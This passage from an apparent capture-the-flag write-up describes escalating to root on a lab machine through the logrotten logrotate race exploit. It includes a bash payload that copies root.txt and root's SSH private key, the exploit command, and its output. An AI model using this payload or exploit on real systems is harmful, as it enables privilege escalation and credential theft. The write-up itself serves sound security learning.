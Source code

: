 After running pspy for awhile, this entry showed up: `2020/06/07 17:08:30 CMD: UID=0 PID=16773 | /usr/sbin/logrotate -f /root/log.cfg.` So the system was indeed running `logrotate`, and it was loading a configuration file from the `/root directory`.  This seemed like enough evidence the process was running as root to me to test it.  It was now time to test out this exploit to see if I could escalate privileges to root.

### Getting a root shell

From the exploit writer at [https://github.com/whotwagner/logrotten](https://github.com/whotwagner/logrotten):

> #### Precondition for privilege escalation
>
> * [x] Logrotate has to be executed as root
> * [x] The logpath needs to be in control of the attacker
> * [x] Any option that creates files is set in the logrotate configuration
>
> #### To run the exploit:
>
> If "create"-option is set in logrotate.cfg:
>
> ```text
> ./logrotten -p ./payloadfile /tmp/log/pwnme.log
> ```
>
> If "compress"-option is set in logrotate.cfg:
>
> ```text
> ./logrotten -p ./payloadfile -c -s 4 /tmp/log/pwnme.log
> ```

Based on my enumeration I found that all of the conditions for vulnerability to this exploit were met for the "create" option, except for one thing that wasn't in the checklist.  I could not find any configuration files related to `logrotate` that mentioned `access.log` in the `/home/reader/backups` folder. Since this was my writeable log file, it was pretty important that it be rotated by the service.  I decided to go ahead and try it anyway since it still looked like a likely approach.  I created a payload that would hopefully get me root access, and ran the exploit.

```text
#!/bin/bash
/bin/cat /root/root.txt > /dev/shm/test
/bin/cat /root/.ssh/id_rsa > /dev/shm/test2
```

My payload was designed to exfiltrate both `root.txt` and `root`'s SSH key.

```text
reader@book:/dev/shm$ ./logrotten -p ./payload /home/reader/backups/access.log
Waiting for rotating /home/reader/backups/access.log...
Renamed /home/reader/backups with /home/reader/backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!
```
